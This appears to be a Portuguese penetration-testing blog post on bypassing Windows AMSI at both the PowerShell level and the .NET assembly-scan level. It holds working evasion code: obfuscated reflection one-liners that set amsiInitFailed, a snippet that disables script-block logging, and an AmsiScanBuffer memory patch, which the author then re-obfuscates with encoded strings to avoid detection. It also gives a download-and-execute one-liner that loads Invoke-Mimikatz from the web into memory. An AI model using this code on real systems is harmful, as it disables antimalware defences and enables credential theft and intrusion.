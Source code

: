 ```yaml
---
title: Bypass de processos específicos de AMSI
author: H41stur
date: 2023-03-06 01:00:00 -0300
categories: [Estudos, AMSI Bypass]
tags: [AMSI, .NET, PowerShell]
image: "/img/posts/amsi.jpg"
alt: "Pentesting Android"
---
```


![Bypass de processos específicos de AMSI](/img/posts/amsi.jpg)


- [Introdução](#introdução)
- [*Bypass* de AMSI no Powershell](#bypass-de-amsi-no-powershell)
- [Diferença entre *Bypass* do AMSI do PowerShell e Processos Específicos do AMSI](#diferença-entre-bypass-do-amsi-do-powershell-e-processos-específicos-do-amsi)


## Introdução

AMSI (*Antimalware Scan Interface*) é uma interface de programação de aplicativos (API) do Windows que permite que os aplicativos antivírus e outros softwares de segurança possam detectar e impedir a execução de *malwares* e scripts maliciosos em tempo de execução.

A AMSI foi introduzida no Windows 10 e no Windows Server 2016 e, desde então, tem sido amplamente adotada por vários aplicativos antivírus e softwares de segurança. A AMSI fornece uma camada adicional de segurança ao sistema operacional, permitindo que os aplicativos de segurança detectem *malwares* que podem passar despercebidos pelos softwares antivírus tradicionais. Ela pode ser usada para detectar e bloquear scripts maliciosos em várias linguagens de programação, como PowerShell, VBScript e JavaScript, além de outras formas de *malwares* que podem estar escondidos em arquivos ou em comunicações de rede.

Acontece que durante um teste em ambiente Windows, principalmente em *Active Directory* precisamos executar diversos scripts em PowerShell que, por muitas vezes, são considerados maliciosos (com razão) pelo AMSI. Para tanto é preciso uma forma de *bypass* deste mecanismo, a fim de "enganar" este sistema.

Existem vários métodos conhecidos, e funcionais disponíveis na internet, porém, nem todos são eficazes, pois o que é pouco divulgado, é fato de que, em algumas situações, existe mais de uma camada de AMSI para lidar.


## *Bypass* de AMSI no Powershell

Normalmente, para carregar um script PowerShell em memória para evitar detecção de arquivo malicioso por antivírus, utilizamos a função `Invoke-Expression`, em casos normais, como por exemplo, importar o `Invoke-Mimikatz`, utilizamos da seguinte forma:

```powershell
iex(New-object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1')
```

Porém, o próprio AMSI do PowerShell reconhece este script como malicioso e geralmente nos retorna a seguinte mensagem:

![Detecção do AMSI](/img/posts/2023-03-06_16-19.png)

A mensagem `This script contains malicious content and has been blocked by your antivirus software.` é bem específica e nos mostra de forma clara que o AMSI considera o script como malicioso. Para tanto, existe uma infinidade de scripts públicos para o *bypass* do AMSI do PowerShell, além da possibilidade de tentar qualquer um disponível no [amsi.fail](https://amsi.fail/).

Podemos utilizar um dos comandos comuns como os abaixo para tentarmos efetuar o *bypass* como este:

```powershell
[ReF]."`A$(echo sse)`mB$(echo L)`Y"."g`E$(echo tty)p`E"(( "Sy{3}ana{1}ut{4}ti{2}{0}ils" -f'iUt','gement.A',"on.Am`s",'stem.M','oma') )."$(echo ge)`Tf`i$(echo El)D"(("{0}{2}ni{1}iled" -f'am','tFa',"`siI"),("{2}ubl{0}`,{1}{0}" -f 'ic','Stat','NonP'))."$(echo Se)t`Va$(echo LUE)"($(),$(1 -eq 1))
```

```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Este comando por sua vez, efetua o *bypass* do AMSI do PowerShell, nos permitindo importar o script em memória sem problemas, conforme abaixo.

![Bypass do AMSI no PwerShell](/img/posts/2023-03-06_16-39.png)

Porém, se tentarmos executá-lo, seremos apresentados a um novo erro.

![Erro na execução](/img/posts/2023-03-06_16-44.png)

```
Exception calling "Load" with "1" argument(s): "Could not load file or assembly '510976 bytes loaded from
Anonymously Hosted DynamicMethods Assembly, Version=0.0.0.0, Culture=neutral, PublicKeyToken=null' or one
of its dependencies. An attempt was made to load a program with an incorrect format."
```
Diferente da mensagem de erro anterior, esta não nos diz absolutamente nada que a relacione com o AMSI, só informa que o formato dos binários estão incorretos.

Porém `AINDA ESTAMOS LIDANDO COM O AMSI!`

Neste caso, efetuamos o *bypass* do AMSI para o PowerShell em si, porém a `[System.Reflection.Assembly]::Load($byteOutArray)` "triggou" o `AMSI-Scan` para o binário `.NET`.

## Diferença entre *Bypass* do AMSI do PowerShell e Processos Específicos do AMSI

Primeiramente é preciso entender como os processos conhecidos de *bypass* de AMSI funcionam, abaixo estão alguns dos métodos mais utilizados:

```powershell
# forçando um erro:
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)
[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)

# Desabilitando o Script Logging:
$settings = [Ref].Assembly.GetType("System.Management.Automation.Utils").GetField("cachedGroupPolicySettings","NonPublic,Static").GetValue($null);
$settings["HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"] = @{}
$settings["HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging"].Add("EnableScriptBlockLogging", "0")

# Matt Graebers Reflection method:
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Basicamente o que estes *snippets* fazem, é desabilitar o PowerShell Script-Logging ou alteram os subvalores do *namespace* `System.Management.Automation`. O `System.Management.Automation` é basicamente o *namespace* raiz do PowerShell.

O que podemos entender, é que todas estas técnicas, são específicas para o PowerShell, e afetam apenas a interface de verificação antimalware para o código de script do próprio Powershell.

Portanto, mesmo alterando os subvalores do *namespace* `System.Management.Automation`, não iremos quebrar o `.NET AMSI-Scan`, pois este não está relacionado com o PowerShell.

Acontece que quando iniciamos uma chamada no PwerShell a `amsi.dll` é carregada em um novo processo para fazer o *hook* de qualquer entrada em linha de comando e analisar o conteúdo das chamadas para `[System.Reflection.Assembly]::Load()`. Portanto, uma das técnicas mais eficazes para o *bypass* do .NET AMSI-Scan, é com `memory patching` do `amsi.dll`. Um artigo completo sobre esta técnica pode ser encontrado [aqui](https://rastamouse.me/memory-patching-amsi-bypass/). Neste caso, a `[System.Reflection.Assembly]::Load()` não cria um novo processo, portanto, efetuar o `memory patching` resultara no *bypass* tanto do *script-code* do PowerShell quanto do .NET AMSI-Scan.

Abaixo o exemplo de *bypass*  sugerido no artigo:

```powershell
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```

Na maior parte dos casos, este script é funcional, porém como o processo do .NET AMSI-Scan também procura por *strings*, como `amsi.dll`, `AmsiScanBuffer`, `Invoke-Mimikatz` entre várias outras, acredito que o script possa ser melhorado para "encodar" estas *strings*, podendo ficar da seguinte forma:

```powershell
$AQERT = @"
using System;
using System.Runtime.InteropServices;
public class AQERT {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $AQERT

$POCVBOIU = [AQERT]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$IMUNT = [AQERT]::GetProcAddress($POCVBOIU, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[AQERT]::VirtualProtect($IMUNT, [uint32]5, 0x40, [ref]$p)
$FGJT = "0xB8"
$CXWE = "0x57"
$LKAS = "0x00"
$QAWS = "0x07"
$YHNM = "0x80"
$PLMN = "0xC3"
$AZKIU = [Byte[]] ($FGJT,$CXWE,$LKAS,$QAWS,+$YHNM,+$PLMN)
[System.Runtime.InteropServices.Marshal]::Copy($AZKIU, 0, $IMUNT, 6)
```

Ao executermos este script, faremos um *bypass* "global" do AMSI, permitindo a execução do script sem erros.

![Bypass global do AMSI](/img/posts/2023-03-06_17-27.png)


## Referências

- [amsi.fail](https://amsi.fail)
- [AmsiScanBufferBypass](https://rastamouse.me/memory-patching-amsi-bypass/)
- [Bypass AMSI by manual modification](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)